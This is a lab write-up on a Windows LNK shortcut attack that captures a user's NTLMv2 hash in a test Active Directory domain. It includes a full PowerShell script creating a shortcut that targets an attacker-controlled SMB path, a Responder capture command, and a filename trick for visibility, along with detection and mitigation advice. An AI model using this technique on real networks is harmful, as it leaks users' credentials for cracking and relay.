





# LNK File Attack

## Executive Summary

This lab was performed to understand how malicious Windows shortcut files can trigger network authentication. A `.lnk` file was created on the `SPIDERMAN` machine, renamed so it would appear near the top of a folder, manually placed on the `hackme` file share, and then observed from the victim side while Responder listened on the attacker machine.

The goal was not to gain code execution. The goal was to study the behavior of the shortcut file and confirm that Windows can attempt SMB authentication when a shortcut references a remote UNC path. Responder captured an NTLMv2 hash from `SPIDERMAN\peterparker`.


## Lab Environment

| Role | Host | Notes |
|---|---|---|
| Domain | MARVEL.local | Active Directory lab domain |
| File Share Host | HYDRA-MU | Hosted the `hackme` share |
| Workstation | SPIDERMAN | Machine where the LNK file was created and later triggered |
| Attacker | Kali Linux | Responder listening on `10.0.2.15` |
| Captured User | `SPIDERMAN\peterparker` | NTLMv2 authentication captured by Responder |

## Tools Used

- Windows PowerShell
- Windows File Explorer
- Responder
- SMB

## Attack Background

A Windows shortcut file can point to a local file, a program, or a remote network path. If the shortcut references a UNC path such as `\\10.0.2.15\@test.png`, Windows may try to contact that remote SMB server when the shortcut is viewed, resolved, or opened.

When the remote SMB server is controlled by an attacker, the victim machine may automatically attempt NTLM authentication. Responder can capture that NTLMv2 challenge response. The captured hash can then be used for offline cracking or other follow-on testing in a controlled lab.

## Methodology

### Step 1: Create the Shortcut File with PowerShell

The shortcut was created on the `SPIDERMAN` machine using PowerShell.

```powershell
$objShell = New-Object -ComObject Wscript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\10.0.2.15\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

Evidence:



### Command Breakdown

```powershell
$objShell = New-Object -ComObject Wscript.shell
```

This creates a Windows Script Host Shell COM object. PowerShell uses this object to interact with Windows shell features, including shortcut creation.

```powershell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
```

This creates a new shortcut object and saves its intended file path as `C:\test.lnk`. At this moment, the shortcut object exists in memory and is ready to be configured.

```powershell
$lnk.TargetPath = "\\10.0.2.15\@test.png"
```

This sets the shortcut target to a remote UNC path on the attacker machine. `10.0.2.15` is the Kali attacker IP where Responder is listening. When Windows tries to resolve this shortcut target, it attempts to contact `\\10.0.2.15` over SMB.


```powershell
$lnk.WindowStyle = 1
```

This sets the shortcut window style to a normal window. It is common shortcut metadata and is not the main trigger for the attack.

```powershell
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
```

This sets the shortcut icon to an icon stored inside `shell32.dll`. It makes the shortcut look normal in File Explorer. In this lab, the remote target path is the important part because it causes Windows to reach out to the attacker-controlled SMB path.

```powershell
$lnk.Description = "Test"
```

This sets a simple shortcut description. It is cosmetic metadata.

```powershell
$lnk.HotKey = "Ctrl+Alt+T"
```

This assigns a keyboard shortcut to the LNK file. It is not needed for hash capture, but it shows another configurable shortcut property.

```powershell
$lnk.Save()
```

This writes the configured shortcut to disk as `C:\test.lnk`.

## Step 2: Rename the Shortcut to Sort Higher

The shortcut was renamed from `test.lnk` to `@test`.

Evidence:



The `@` symbol was used for placement. If a share contains many files, a filename starting with `@` can appear near the top of the list. This is not required for the attack to work, but it increases the chance that a user notices or previews the file while browsing.

## Step 3: Place the LNK File on the File Share

The shortcut was manually copied to the `hackme` share hosted on `HYDRA-MU`.

Evidence:



This step places the crafted shortcut where another user or workstation can browse it. The attack relies on normal Windows behavior when File Explorer reads shortcut metadata and resolves parts of the shortcut.

## Step 4: Start Responder on Kali

Responder was running on the Kali attacker machine.

```bash
sudo responder -I eth0 -Pvd
```

Evidence:



Responder starts multiple network servers, including SMB. In this lab, the important behavior is that the attacker machine is ready to accept SMB connections and request NTLM authentication from any client that connects to `\\10.0.2.15`.

The screenshot also shows LLMNR poisoning activity for `SPIDERMAN`. The LNK target used an IP address, so the main hash capture path is the SMB authentication to the attacker IP. The poisoning messages are useful evidence that Responder is active on the network.

## Step 5: Capture the NTLMv2 Hash

When the target workstation interacted with the share and Windows processed the shortcut, it attempted to authenticate to the attacker SMB listener.

Evidence:



Responder captured an NTLMv2-SSP authentication attempt from:

```text
SPIDERMAN\peterparker
```

The hash value is redacted in the screenshot. The important result is that the shortcut caused Windows to send authentication material to the attacker-controlled SMB service.

## What Happens Behind the Scenes

1. The shortcut file contains a remote target path pointing to `\\10.0.2.15\@test.png`.
2. A user browses the share or interacts with the file in Windows Explorer.
3. Windows reads shortcut metadata and tries to resolve the remote path.
4. The victim system connects to the attacker SMB service at `10.0.2.15`.
5. SMB authentication is requested.
6. Windows sends an NTLMv2 challenge response for the current user context.
7. Responder captures the NTLMv2 hash.

This is why a `.lnk` file can be useful to an attacker even when it does not execute malware. The shortcut abuses automatic Windows behavior and network authentication.

## Result

The LNK file attack behavior was successfully observed in the lab.

Key outcomes:

- A shortcut file was created with PowerShell.
- The shortcut target pointed to an attacker-controlled SMB path.
- The file was renamed with `@` so it appeared near the top of the folder.
- The shortcut was manually placed on the `hackme` file share.
- Responder was started on Kali.
- Windows attempted SMB authentication when the shortcut was processed.
- Responder captured an NTLMv2 hash for `SPIDERMAN\peterparker`.

## Risk

LNK file attacks are dangerous because they can trigger authentication without obvious execution. A user may only browse a share or view a folder, and Windows may still attempt to resolve the shortcut target.

If the captured hash belongs to a weak password, an attacker may crack it offline. If the environment also allows relay paths, the authentication may be useful for further attacks.

## Detection Opportunities

Defenders can look for:

- Shortcut files placed in shared folders unexpectedly.
- LNK files pointing to external or unusual UNC paths.
- SMB authentication to unusual hosts.
- Responder-like SMB servers inside the network.
- NTLM authentication from workstations to non-file-server systems.
- Suspicious filenames designed to sort to the top of a folder.

## Mitigation

- Disable LLMNR and NBT-NS where possible.
- Restrict NTLM usage where possible.
- Block outbound SMB to untrusted systems.
- Monitor file shares for suspicious `.lnk` files.
- Train users to avoid opening unknown shortcut files on shares.
- Enforce strong passwords to reduce the chance of successful offline cracking.
- Use SMB signing where relay risk exists.
- Limit write access to shared folders.

## Lessons Learned

This lab showed that a shortcut file can cause authentication behavior just by referencing a remote network path. The attack did not depend on running malware. It depended on Windows trying to resolve shortcut metadata through SMB.
